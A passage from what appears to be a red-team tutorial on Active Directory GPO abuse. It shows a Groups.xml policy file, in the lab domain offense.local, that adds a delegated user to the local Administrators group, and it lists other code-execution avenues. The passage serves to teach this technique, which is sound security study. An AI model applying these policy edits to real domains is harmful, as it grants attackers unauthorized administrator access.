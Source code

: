 ```markup
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

### Users and Groups

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:

{% code title="\\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```
{% endcode %}

Additionally, we could think about leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

{% embed url="https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/enabling-and-disabling-privileges-in-c--" %}

{% embed url="https://adsecurity.org/?p=3658" %}

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" %}

{% embed url="https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" %}

{% embed url="https://rastamouse.me/2019/01/gpo-abuse-part-1/" %}

